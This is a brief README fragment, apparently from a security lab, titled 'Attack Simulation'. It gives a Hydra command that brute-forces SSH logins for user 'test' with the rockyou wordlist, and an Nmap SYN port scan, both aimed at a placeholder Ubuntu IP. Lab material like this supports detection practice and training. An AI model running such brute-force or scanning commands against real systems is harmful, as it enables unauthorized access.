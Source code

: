 # Attack Simulation

## SSH Brute Force (Hydra)
```bash
hydra -l test -P /usr/share/wordlists/rockyou.txt ssh://<Ubuntu-IP>

## Port Scanning (Nmap)
nmap -sS -p 1-1000 <Ubuntu-IP>
